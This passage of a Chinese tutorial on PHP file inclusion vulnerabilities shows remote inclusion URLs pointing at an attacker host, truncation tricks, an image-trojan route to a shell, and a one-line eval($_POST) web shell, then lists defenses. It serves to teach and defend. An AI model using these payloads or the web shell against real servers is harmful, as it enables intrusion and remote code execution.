 #### 2.2远程文件包含

漏洞本地验证

如果 PHP 的配置选项 allow_url_include 为 ON 的话，则 include/require 函数是可以加载 远程文件的，这种漏洞被称为远程文件包含漏洞

![11](D:\存储\文章\文件包含与伪协议\image\21.png)



假设上面的代码对应 URL 为：http://www.localhost.test/test.php ,攻击者可以构造 URL “ http://www.localhost.test/?param=http://attacker/phpshell.txt?”当服务器接收 到请求之后，通过 require_one 加载的 URL 变成了 require_once 'http://attacker/phpshell.txt?/action/m_share.php' 问号后面的路径此时已经被解释成 URL 的参数，这也是一种“截断”的方式，这是攻击者在 利用远程文件包含漏洞时所用到的。同样的，远程文件包含也可以用%00 作为截断符号

#### 2.3远程包含shell

​    如果目标主机allow_url_fopen选项是激活的，就可以尝试包含一句话木马，比如在自己所在的服务器存放一个shell文件：http://www.localhost.test/echo.php

代码如下：

![33](D:\存储\文章\文件包含与伪协议\image\33.png)

然后在可能存在此漏洞的 URL 中，修改 path 值，得到构造好的 URL： http://www.localhost.test/index.php?path=http://www.attacker.com/echo.txt
如果确实存在漏洞，目标服务器将会在 index.php 所在的目录下生成 shell.php，内容为：

<?php

eval($_POST[xxser]);

?>

#### 2.4本地文件包含获取shell方法

在存在本地文件包含漏洞情况下，白帽子并不一定就能拿到 shell 权限，此时攻击者会 想出一些办法上传一个 shell 文件，如果此时应用中有图片上传功能并能以此上传一个图片 木马。 假设现在已经上传一句话图片木马到服务器,图片木马代码如下： 

![34](D:\存储\文章\文件包含与伪协议\image\34.png)

并知道图片的 URL： http://www.localhost.test/uploadfile/xxx.jpg
此时攻击者将构造一个新的 URL： http://www.localhost.test/index.php?path=./uploadfile/xxx.jpg
当访问此 URL 时，PHP 会 include 这张图片，而图片中有着木马代码，所以会在 index.php 所在的目录下生成 shell.php，此时攻击者已经拿到了 shell.

### 3如何防御

1.严格判断包含的参数是否外部可控，因为文件包含漏洞利用成功与否的关键点就在于被包 含的文件是否可被外部控制； 

2.路径限制：限制被包含的文件只能在某一文件夹内，一定要禁止目录跳转字符，如： “../”；

 3.包含文件验证：验证被包含的文件是否是白名单中的一员；

 4.尽量不要使用动态包含，可以在需要包含的页面固定写好，如：include("head.php");。

  5.本地文件包含可以通过配置 PHP 的 open_basedir 来限制，其作用是限制在某个特定目录 下 PHP 能打开的文件。（例如 open_basedir=/home/wwwroot/www.test.localhost,在 windows 下多个目录应当用分号隔开，在 Linux 下则用冒号隔开。）

6.但该方法并不是万能的，在某些情况下仍可能会被绕过，参见 PHP 绕过 open_basedir 列 目录的研究。对传入的参数进行校检和过滤始终是有必要的。





